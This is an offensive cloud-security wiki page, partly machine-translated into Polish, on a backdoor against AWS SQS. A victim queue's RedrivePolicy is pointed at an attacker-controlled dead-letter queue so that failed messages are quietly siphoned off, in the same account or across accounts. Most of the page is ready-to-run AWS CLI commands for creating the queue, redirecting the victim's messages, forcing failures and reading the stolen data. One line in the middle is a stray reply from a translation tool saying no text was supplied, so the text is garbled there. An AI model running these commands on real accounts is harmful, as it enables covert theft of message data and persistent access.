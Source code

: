 # AWS - SQS DLQ Backdoor Persistence via RedrivePolicy/RedriveAllowPolicy

{{#include ../../../../banners/hacktricks-training.md}}

Abuse SQS Dead-Letter Queues (DLQs) to stealthily siphon data from a victim source queue by pointing its RedrivePolicy to an attacker-controlled queue. With a low maxReceiveCount and by triggering or awaiting normal processing failures, messages are automatically diverted to the attacker DLQ without changing producers or Lambda event source mappings.

## Abused Permissions
- sqs:SetQueueAttributes on the victim source queue (to set RedrivePolicy)
- sqs:SetQueueAttributes on the attacker DLQ (to set RedriveAllowPolicy)
- Optional for acceleration: sqs:ReceiveMessage on the source queue
- Optional for setup: sqs:CreateQueue, sqs:SendMessage

## Same-Account Flow (allowAll)

Preparation (attacker account or compromised principal):
```bash
REGION=us-east-1
# 1) Create attacker DLQ
ATTACKER_DLQ_URL=$(aws sqs create-queue --queue-name ht-attacker-dlq --region $REGION --query QueueUrl --output text)
ATTACKER_DLQ_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_DLQ_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Allow any same-account source queue to use this DLQ
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"allowAll\"}"}'
```
Wykonanie (uruchom jako przejęty principal w koncie ofiary):
```bash
# 3) Point victim source queue to attacker DLQ with low retries
VICTIM_SRC_URL=<victim source queue url>
ATTACKER_DLQ_ARN=<attacker dlq arn>
aws sqs set-queue-attributes \
--queue-url "$VICTIM_SRC_URL" --region $REGION \
--attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"'"$ATTACKER_DLQ_ARN"'\",\"maxReceiveCount\":\"1\"}"}'
```
Przyspieszenie (opcjonalne):
```bash
# 4) If you also have sqs:ReceiveMessage on the source queue, force failures
for i in {1..2}; do \
aws sqs receive-message --queue-url "$VICTIM_SRC_URL" --region $REGION \
--max-number-of-messages 10 --visibility-timeout 0; \
done
```
Nie przekazano tekstu do przetłumaczenia. Proszę wklej zawartość pliku (z zachowaniem markdown/ścieżek), którą mam przetłumaczyć na polski.
```bash
# 5) Confirm messages appear in attacker DLQ
aws sqs receive-message --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--max-number-of-messages 10 --attribute-names All --message-attribute-names All
```
Przykładowe dowody (Atrybuty obejmują DeadLetterQueueSourceArn):
```json
{
"MessageId": "...",
"Body": "...",
"Attributes": {
"DeadLetterQueueSourceArn": "arn:aws:sqs:REGION:ACCOUNT_ID:ht-victim-src-..."
}
}
```
## Wariant Cross-Account (byQueue)
Ustaw RedriveAllowPolicy na attacker DLQ, aby zezwolić wyłącznie na konkretne ARNy kolejek źródłowych ofiary:
```bash
VICTIM_SRC_ARN=<victim source queue arn>
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"byQueue\",\"sourceQueueArns\":[\"'"$VICTIM_SRC_ARN"'\"]}"}'
```
## Wpływ
- Dyskretna, trwała data exfiltration/persistence poprzez automatyczne przekierowywanie nieudanych wiadomości z źródłowej kolejki SQS ofiary do DLQ kontrolowanego przez atakującego, z minimalnym hałasem operacyjnym i bez zmian po stronie producentów ani mapowań Lambda.

{{#include ../../../../banners/hacktricks-training.md}}
